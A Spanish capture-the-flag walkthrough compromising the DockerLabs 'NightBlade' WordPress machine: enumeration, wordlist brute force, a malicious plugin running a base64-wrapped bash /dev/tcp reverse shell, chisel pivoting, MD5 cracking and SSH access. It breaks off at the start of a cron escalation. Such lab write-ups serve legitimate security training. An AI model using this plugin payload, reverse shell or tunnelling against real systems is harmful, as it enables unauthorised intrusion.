# NightBlade DockerLabs (Intermediate)

## Contexto de la maquina

### Trayectoria NightBlade

<figure><figcaption></figcaption></figure>

### Descripción

La máquina **NightBlade** presenta un escenario centrado en la explotación de una aplicación web basada en **WordPress**, seguido de un movimiento lateral hacia una red interna y escalada de privilegios en un sistema Linux.

**Objetivo del reto**

Comprometer completamente el sistema:

* Obtener acceso inicial mediante la aplicación web.
* Pivotar hacia una red interna.
* Escalar privilegios hasta obtener acceso como **root**.

**Tipo de máquina**

* Web + Linux
* Escenario con red interna (pivoting)

**Habilidades y técnicas evaluadas**

* Enumeración web (WordPress)
* Análisis de archivos expuestos (`robots.txt`, backups)
* Fuerza bruta dirigida
* Explotación mediante subida de plugins maliciosos
* Pivoting con túneles (chisel + proxychains)
* Cracking de hashes (MD5)
* Abuso de tareas programadas (cron jobs)
* Escalada de privilegios en Linux

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip nightblade.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh nightblade.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-05 03:19 -0400
Nmap scan report for 10.10.10.2
Host is up (0.000044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: NightBlade Gaming Network
| http-robots.txt: 2 disallowed entries 
| /wp/wp-admin/ 
|_4c334d7a5933497a6445417662476c7a644335306548513d0a
MAC Address: 02:42:0A:0A:0A:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.29 seconds
```

Observamos que únicamente hay un servicio expuesto:

* **Puerto 80 → HTTP (Apache 2.4.58)**

Además, el escaneo revela dos elementos interesantes en `robots.txt`:

* `/wp/wp-admin/`
* Una cadena aparentemente codificada

### Enumeración web

Accedemos a la aplicación web:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

A simple vista no encontramos nada especialmente relevante, pero gracias al resultado de `nmap`, identificamos la ruta `/wp`, lo que sugiere la presencia de un **WordPress**.

Accedemos a dicha ruta:

```
URL = http://<IP>/wp
```

Respuesta:

<figure><figcaption></figcaption></figure>

Confirmamos que efectivamente se trata de una instalación de WordPress.

## Enumeración con WPScan

Utilizamos **WPScan** para obtener más información sobre la instalación:

```shell
wpscan --url http://<IP>/wp --enumerate u
```

Respuesta:

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.10.2/wp/ [10.10.10.2]
[+] Started: Sun Apr  5 03:27:16 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.2/wp/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.10.2/wp/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.10.2/wp/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.2/wp/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.9.4 identified (Latest, released on 2026-03-11).
 | Found By: Meta Generator (Passive Detection)
 |  - http://10.10.10.2/wp/, Match: 'WordPress 6.9.4'
 | Confirmed By: Rss Generator (Aggressive Detection)
 |  - http://10.10.10.2/wp/feed/, <generator>https://wordpress.org/?v=6.9.4</generator>
 |  - http://10.10.10.2/wp/comments/feed/, <generator>https://wordpress.org/?v=6.9.4</generator>

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] krav0
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.10.2/wp/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Rss Generator (Aggressive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Apr  5 03:27:24 2026
[+] Requests Done: 47
[+] Cached Requests: 5
[+] Data Sent: 11.619 KB
[+] Data Received: 519.431 KB
[+] Memory used: 150.066 MB
[+] Elapsed time: 00:00:08
```

#### Hallazgos relevantes

Del escaneo podemos destacar varios puntos importantes:

* **XML-RPC habilitado**, lo que podría permitir ataques de fuerza bruta o abuso de funcionalidades como pingback
* **Directorio de uploads accesible**, indicando una posible mala configuración
* **Versión WordPress 6.9.4**, útil para búsqueda de vulnerabilidades conocidas
* **Usuario válido identificado**: `krav0`

### Ataque de fuerza bruta inicial

Con el usuario identificado, intentamos un ataque de fuerza bruta utilizando un diccionario común:

```shell
wpscan --url http://<IP>/wp --usernames krav0 --passwords <WORDLIST>
```

<figure><figcaption></figcaption></figure>

Sin embargo, este intento no tiene éxito, lo que indica que la contraseña no se encuentra en diccionarios genéricos.

### Análisis de `robots.txt`

Durante la fase de reconocimiento, observamos un detalle interesante previamente detectado tanto manualmente como en el escaneo de **nmap**: una cadena aparentemente codificada dentro del archivo `robots.txt`.

Accedemos al archivo:

```
URL = http://<IP>/robots.txt
```

Respuesta:

```
User-agent: *
Disallow: /wp/wp-admin/
Disallow: 4c334d7a5933497a6445417662476c7a644335306548513d0a
```

La segunda entrada no es una ruta convencional, sino una cadena en formato hexadecimal.

### Decodificación de la cadena

#### Paso 1: Hex → ASCII

```shell
echo "4c334d7a5933497a6445417662476c7a644335306548513d0a" | xxd -r -p
```

Respuesta:

```
L3MzY3IzdEAvbGlzdC50eHQ=
```

#### Paso 2: Base64 → Texto plano

```shell
echo "L3MzY3IzdEAvbGlzdC50eHQ=" | base64 -d -w0
```

Respuesta:

```
/s3cr3t@/list.txt
```

### Acceso a recurso oculto

Accedemos a la ruta descubierta:

```
URL = http://<IP>/s3cr3t@/list.txt
```

Respuesta:

```
password
123456
admin
password123
qwerty
letmein
welcome
monkey
dragon
master
abc123
111111
sunshine
princess
shadow
superman
michael
football
charlie
donald
batman
trustno1
iloveyou
starwars
passw0rd
hello123
welcome1
admin123
root123
toor
hacker
hackme
test123
changeme
secret
pass1234
voidwalker
gaming
nightblade
krav0
blade123
network
redteam
pentester
linux123
security
hunter2
matrix
access
login123
summer2024
```

Se trata claramente de un **diccionario de contraseñas personalizado**, lo cual es mucho más relevante que un wordlist genérico.

### Ataque de fuerza bruta con diccionario específico

<figure><figcaption></figcaption></figure>

Descargamos el archivo y lo utilizamos en WPScan:

```shell
wget http://<IP>/s3cr3t@/list.txt
wpscan --url http://<IP>/wp --usernames krav0 --passwords list.txt
```

Respuesta:

```
..................................<RESTO DE INFO>..................................
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - krav0 / voidwalker                                                                                                                                                          
Trying krav0 / krav0 Time: 00:00:01 <=================================================                                                                 > (40 / 91) 43.95%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: krav0, Password: voidwalker

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
..................................<RESTO DE INFO>..................................
```

#### Credenciales obtenidas

* **Usuario:** `krav0`
* **Contraseña:** `voidwalker`

### Acceso al panel de administración

Intentamos autenticarnos en:

```
URL = http://<IP>/wp/wp-admin
```

Sin embargo, encontramos un problema: tras el login, la aplicación redirige a una **IP interna** (`172.17.0.2`), lo que impide la interacción normal desde el exterior.

### Bypass mediante BurpSuite

Para solucionar este comportamiento, utilizamos **BurpSuite** como proxy interceptando las peticiones y modificando las cabeceras.

#### Estrategia:

* Interceptar las respuestas/redirecciones
* Reescribir la IP interna (`172.17.0.2`) por la IP objetivo (`<IP>`)
* Utilizar **FoxyProxy** configurado en el puerto `8080`

#### Configuración:

Se añaden reglas en BurpSuite para:

* Reescribir cabeceras `Location`
* Mantener la navegación dentro del entorno accesible

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Con esto conseguimos mantener la sesión correctamente y acceder al panel de administración.

## Escalate user www-data

<figure><figcaption></figcaption></figure>

Una vez tenemos el entorno preparado y el proxy correctamente configurado, volvemos a acceder al panel de login:

```
URL = http://<IP>/wp/wp-login
```

Respuesta:

<figure><figcaption></figcaption></figure>

Veremos que ahora el acceso funciona correctamente, por lo que utilizamos las credenciales obtenidas anteriormente:

```
User: krav0
Pass: voidwalker
```

### Acceso al panel de administración

Tras autenticarnos, accedemos al panel de administración de WordPress:

<figure><figcaption></figcaption></figure>

Sin embargo, observamos que **no disponemos de permisos suficientes** para editar directamente archivos PHP desde el panel (por ejemplo, el editor de temas o plugins).

### Abuso de funcionalidad: subida de plugin malicioso

Dado que no podemos modificar código existente, optamos por una técnica alternativa: **subir un plugin personalizado malicioso** que nos permita ejecutar comandos en el sistema.

### Preparación de la reverse shell

Primero generamos el payload en base64 (para evitar problemas de parsing o filtrado):

```shell
echo "bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" | base64
```

### Creación del plugin malicioso

Creamos el archivo `shell.php` con la siguiente estructura:

> shell.php

```shell
nano shell.php

#Dentro del nano
<?php
/*
Plugin Name: HACKEADO
Description: Plugin para ejecutar comandos del sistema a través de la URL (solo en entorno controlado).
Version: 66666666.0
Author: d1se0
*/
?>

<?php
system("echo '<BASE64>' | tee /tmp/shell; base64 -d /tmp/shell | bash");
?>
```

Este plugin ejecuta el payload codificado en base64, lo decodifica en el sistema y lanza una **reverse shell**.

### Empaquetado del plugin

```shell
mkdir shell
mv shell.php shell/
zip -r shell.zip shell/
```

### Subida del plugin

Desde el panel de WordPress:

```
Plugins → Añadir nuevo → Subir plugin
```

* Seleccionamos el archivo `shell.zip`
* Pulsamos en **“Instalar ahora”**

### Ejecución del payload

Antes de activar el plugin, nos ponemos a la escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

Ahora activamos el plugin desde el panel de WordPress.

### Obtención de shell

Al activar el plugin, recibimos la conexión entrante:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [10.10.10.2] 55010
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@f40a39b7f443:/var/www/html/wp/wp-admin$ whoami
whoami
www-data
```

Confirmamos que hemos obtenido acceso como el usuario:

```
www-data
```

### Sanitización de shell (TTY)

Para trabajar de forma más cómoda, procedemos a estabilizar la shell:

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user nightblade

<figure><figcaption></figcaption></figure>

Durante la fase inicial del laboratorio observamos una IP interesante (`20.20.20.2`) que no era accesible directamente desde nuestra máquina atacante.

Ahora, ya con acceso a la máquina comprometida, listamos las interfaces de red:

```shell
ip a
```

Respuesta:

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:0a:0a:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.10.10.2/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
8: eth1@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:14:14:14:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 20.20.20.2/24 brd 20.20.20.255 scope global eth1
       valid_lft forever preferred_lft forever
```

Se confirma que la máquina tiene conectividad con una **red interna adicional (20.20.20.0/24)**, la cual no es accesible directamente desde nuestro host atacante.

### Pivoting mediante túnel (Chisel)

Para acceder a esta red interna, utilizamos **tunneling con chisel**, lo que nos permitirá enrutar tráfico a través de la máquina comprometida.

### Preparación de chisel

Descargamos el binario en nuestra máquina atacante:

URL = [Download chisel chisel\_1.11.5\_linux\_amd64.gz](https://github.com/jpillora/chisel/releases)

```shell
gunzip chisel_1.11.5_linux_amd64.gz
mv chisel_1.11.5_linux_amd64 chisel
chmod +x chisel
```

Levantamos un servidor HTTP para transferir el binario:

```shell
python3 -m http.server 80
```

### Transferencia a la máquina víctima

En la máquina comprometida:

```shell
cd /tmp
wget http://<IP>/chisel
chmod +x chisel
```

### Configuración del túnel

#### En la máquina atacante (servidor chisel):

```shell
./chisel server -p 8080 --reverse --socks5 -v
```

#### En la máquina víctima (cliente chisel):

```shell
./chisel client <IP_ATTACKER>:8080 R:socks
```

Esto nos proporciona un **proxy SOCKS5 inverso**, permitiéndonos enrutar tráfico hacia la red interna a través de la máquina comprometida.

### Descubrimiento de hosts internos

Para identificar hosts activos en la red `20.20.20.0/24`, utilizamos un pequeño script apoyado en `proxychains`.

#### Script de escaneo

> scan.sh

```bash
#!/bin/bash

# Para usar con proxychains
# Asegúrate de tener el túnel activo

echo "[*] Escaneando red interna 20.20.20.0/24 a través del túnel..."
echo ""

for ip in 20.20.20.{1..254}; do
    # Probar conectividad con timeout
    if proxychains -q timeout 2 curl -s --connect-timeout 2 "http://$ip" > /dev/null 2>&1; then
        echo "[+] Host activo: $ip"
        
        # Intentar obtener información básica
        title=$(proxychains -q curl -s --connect-timeout 2 "http://$ip" 2>/dev/null | grep -o '<title>[^<]*' | head -1 | sed 's/<title>//')
        if [ -n "$title" ]; then
            echo "    📄 Título: $title"
        fi
    fi
done
```

Lo ejecutamos de esta forma:

```shell
bash scan.sh
```

Respuesta:

```
[*] Escaneando red interna 20.20.20.0/24 a través del túnel...

[+] Host activo: 20.20.20.2
    📄 Título: NightBlade Gaming Network
[+] Host activo: 20.20.20.3
    📄 Título: Apache2 Ubuntu Default Page: It works
```

Se identifica un nuevo host activo en la red interna:

```
20.20.20.3/24
```

### Acceso al host interno

Para interactuar con este nuevo objetivo, configuramos el proxy SOCKS en el navegador mediante **FoxyProxy**, enroutando el tráfico a través del túnel.

<figure><figcaption></figcaption></figure>

Accedemos al servicio web:

```
URL = http://20.20.20.3/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Observamos la página por defecto de **Apache2**, lo que sugiere que puede haber contenido oculto o rutas no indexadas.

### Fuzzing inicial de directorios

Realizamos un primer escaneo de directorios utilizando `dirb` a través de `proxychains`:

```shell
proxychains -q dirb http://20.20.20.3/ <WORDLIST> -X .php,.html,.txt
```

Respuesta:

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Apr  5 04:46:41 2026
URL_BASE: http://20.20.20.3/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
EXTENSIONS_LIST: (.php,.html,.txt) | (.php)(.html)(.txt) [NUM = 3]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://20.20.20.3/ ----
+ http://20.20.20.3/index.php (CODE:200|SIZE:6592)                                 
+ http://20.20.20.3/index.html (CODE:200|SIZE:10671)                                                                                                                  
-----------------
END_TIME: Sun Apr  5 04:46:45 2026
DOWNLOADED: 13836 - FOUND: 2
```

Se identifica un archivo `index.php`, que podría contener lógica adicional respecto a la página estática.

### Análisis de `index.php`

Accedemos al recurso:

```
URL = http://20.20.20.3/index.php
```

Respuesta:

<figure><figcaption></figcaption></figure>

Se trata de una especie de **dashboard interno (intranet)** donde el acceso actual corresponde a un usuario `guest`.

Tras varias pruebas manuales, no se identifican vectores de ataque directos, por lo que decidimos ampliar el alcance del fuzzing.

### Fuzzing avanzado

<figure><figcaption></figcaption></figure>

Ejecutamos un escaneo más exhaustivo incluyendo múltiples extensiones potencialmente sensibles:

```shell
proxychains -q dirb http://20.20.20.3/ /usr/share/wordlists/dirb/common.txt -X .php,.html,.txt,.sql,.db,.zip,.bak,.pdf,.backup,.json,.xml
```

Respuesta:

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Apr  5 04:53:26 2026
URL_BASE: http://20.20.20.3/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
EXTENSIONS_LIST: (.php,.html,.txt,.sql,.db,.zip,.bak,.pdf,.backup,.json,.xml) | (.php)(.html)(.txt)(.sql)(.db)(.zip)(.bak)(.pdf)(.backup)(.json)(.xml) [NUM = 11]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://20.20.20.3/ ----
+ http://20.20.20.3/db.sql (CODE:200|SIZE:5919)                                    
+ http://20.20.20.3/index.php (CODE:200|SIZE:6592)                                 
+ http://20.20.20.3/index.html (CODE:200|SIZE:10671)                               
  
-----------------
END_TIME: Sun Apr  5 04:53:41 2026
DOWNLOADED: 50732 - FOUND: 3
```

Se identifica un nuevo recurso crítico:

```
db.sql
```

### Exposición de base de datos

Descargamos el archivo:

```shell
wget http://20.20.20.3/db.sql && cat db.sql
```

El archivo contiene información sensible, incluyendo credenciales de usuarios en formato hash.

### Extracción de hashes

A partir del volcado de la base de datos (`db.sql`), identificamos varios hashes asociados a distintos usuarios. Procedemos a almacenarlos en un fichero para su posterior análisis y crackeo:

```shell
cat > hashes << 'EOF'
nightblade:8621ffdbc5698829397d97767ac13db3
krav0:bdc814f4789c7678a760a814a7744d1e
jsmith:482c811da5d5b4bc6d497ffa98491e38
alice:28db548ac69921eca66afe7de34f67f5
bob:a8af8b1a725629b019f818a55670f0d8
svc_backup:2992b05d778865d1bef8faf905a27570
svc_monitor:099f20c317ea4345c8b86385eadc3fc5
EOF
```

Estos hashes presentan formato compatible con **MD5**, lo que sugiere un almacenamiento débil de contraseñas.

### Crackeo de contraseñas (`db.sql`)

Para recuperar las contraseñas en texto claro, utilizamos la herramienta `john` especificando el formato adecuado:

```shell
john --format=raw-md5 --wordlist=<WORDLIST> hashes
```

Respuesta:

```
Using default input encoding: UTF-8
Loaded 7 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Remaining 6 password hashes with no different salts
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (nightblade)     
voidwalker       (krav0)     
2g 0:00:00:00 DONE (2026-04-05 04:59) 3.448g/s 24729Kp/s 24729Kc/s 103850KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Observamos que se han conseguido recuperar **dos credenciales válidas**:

* `krav0 : voidwalker` (ya conocida previamente)
* `nightblade : dragon`

La cuenta `nightblade` resulta especialmente interesante, ya que aparentemente pertenece a un usuario con mayores privilegios.

### Acceso por SSH (usuario `nightblade`)

Dado que anteriormente identificamos el host interno `20.20.20.3`, probamos acceso por SSH utilizando `proxychains` para enrutar la conexión a través del túnel:

```shell
proxychains -q ssh nightblade@20.20.20.3
```

Metemos como contraseña `dragon`...

```
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.17.10+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Mar 24 19:46:31 2026 from 10.10.10.2
nightblade@2403f803062d:~$ whoami
nightblade
```

El acceso es exitoso, confirmando que las credenciales son válidas y que el servicio SSH está disponible en el host interno.

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Una vez dentro como `nightblade`, comenzamos la enumeración en busca de vectores de escalada.

### Identificación de script vulnerable

Al inspeccionar el directorio `/opt`, encontramos lo siguiente:

```
drwxr-xr-x 1 root root 4096 Mar 24 20:00 scripts
```

Dentro:

```
-rwxrwxr-x 1 root nightblade 160 Mar 24 20:00 check.sh
```

Este archivo presenta varios puntos clave:

* Propietario: `root`
* Grupo: `nightblade`
* Permisos de escritura para el grupo

Esto indica que el usuario actual puede modificar un script perteneciente a `root`, lo cual es altamente sospechoso.

### Identificación de tarea programada (cron)

Para verificar si este script se ejecuta automáticamente, revisamos las tareas programadas:

```shell
ls -la /etc/cron.d
```

Respuesta:

```
-rw-r--r-- 1 root root  102 Mar 23  2022 .placeholder
